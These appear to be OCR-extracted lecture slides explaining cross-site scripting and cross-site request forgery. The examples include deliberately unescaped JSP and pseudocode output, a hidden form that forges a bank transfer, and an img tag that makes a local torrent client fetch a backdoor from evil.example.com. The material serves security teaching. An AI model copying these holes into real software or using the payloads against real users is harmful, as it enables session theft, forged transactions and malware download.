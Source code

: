 * In a header?

---

# Intermezzo: XSS and CSRF

## XSS

Someone is able to have their scripts executed as part of your web application.


```
<% String eid = request.getParameter("eid"); %> 
	...
	Employee ID: <%= eid %>
```

---

# Intermezzo: XSS and CSRF

## CSRF

Someone else's web application secretly lets its visitors perform actions with your web application due to cookies still present from previous visits.


```
<form action="http://bank.com/transfer.do" method="POST">
<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
```

---

# Intermezzo: XSS and CSRF

```
print "<html>"
print "Latest comment:"
print database.latestComment
print "</html>"
```

---

# Intermezzo: XSS and CSRF

```
<img src="http://localhost:8080/gui/
?action=add-url&
s=http://evil.example.com/backdoor.torrent">
```

---